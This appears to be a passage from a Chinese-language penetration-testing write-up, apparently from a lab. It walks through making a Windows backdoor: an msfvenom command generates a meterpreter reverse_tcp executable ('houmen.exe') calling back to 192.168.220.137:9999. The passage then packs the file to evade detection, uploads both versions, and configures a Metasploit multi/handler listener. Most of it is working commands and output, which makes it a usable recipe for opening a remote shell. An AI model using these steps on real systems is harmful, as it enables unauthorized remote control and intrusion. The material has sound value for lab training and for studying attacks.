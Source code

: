 #### 制作后门

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.137 lport=9999 -f exe -o houmen.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: houmen.exe
```

#### 加个壳

![image-20220811181014648](./st1.assets/image-20220811181014648.png)

#### 上传后门

加壳版和普通版都传，以防万一

![image-20220811181159361](./st1.assets/image-20220811181159361.png)

![image-20220811182111039](./st1.assets/image-20220811182111039.png)

#### 监听

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specifi
                                     ed)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp                                                                                       
msf6 exploit(multi/handler) > set lhost 192.168.220.137
lhost => 192.168.220.137                                                                                                             
msf6 exploit(multi/handler) > set lport 9999
lport => 9999                                                                                                                        
```
